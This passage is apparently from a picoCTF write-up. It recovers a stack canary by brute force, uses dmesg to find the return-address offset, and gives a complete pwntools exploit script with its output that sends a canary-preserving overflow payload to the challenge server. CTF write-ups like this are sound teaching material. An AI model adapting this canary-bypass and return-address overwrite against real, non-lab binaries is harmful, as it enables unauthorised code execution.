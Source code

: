 ```
>> python3 bruteforce_canary.py
...
[+] Opening connection to saturn.picoctf.net on port 63900: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABiRd'
[*] Closed connection to saturn.picoctf.net port 63900
Canary value found: b'd'
Final canary_value is: b'BiRd' 
```

Similar to the previous challenge, we can look for the `win()` address using Ghidra.

Now, we need to find the offset after the canary to reach the return address. We can use `dmesg` on the binary to figure that out.

Using `64*A + canary_value + 16*B + 4*C`:

```
>> sudo dmesg
[108799.722082] vuln4[521393]: segfault at 43434343 ip 0000000043434343 sp 00000000ffbfefa0 error 14 in libc-2.33.so[f7d6c000+1d000]                            
[108799.722093] Code: Unable to access opcode bytes at RIP 0x43434319.
```

Substituting C with the flag address. We can get the flag.

Python exploit:

```py
from pwn import *
import struct

context.update(arch='i386', os='linux')
    
#elf = ELF('./vuln4')
#p = elf.process()
p = remote('saturn.picoctf.net', 63900)

offset = 64
canary_length = 4
offset_B = 16
flag_address_length = 4

length = offset + canary_length + offset_B + flag_address_length

flag_address = b'\x36\x93\x04\x08'

canary_value = b'BiRd'

payload = [
    b'A'*offset,
    canary_value,
    b'B'*offset_B,
    flag_address
]
    
payload = b''.join(payload)
print(payload)

p.sendline(bytes(str(length), encoding='utf8'))
p.sendline(payload)
p.interactive()
```
```sh
>> python3 vuln.py
[+] Opening connection to saturn.picoctf.net on port 63900: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABiRdBBBBBBBBBBBBBBBB6\x93\x04\x08'
```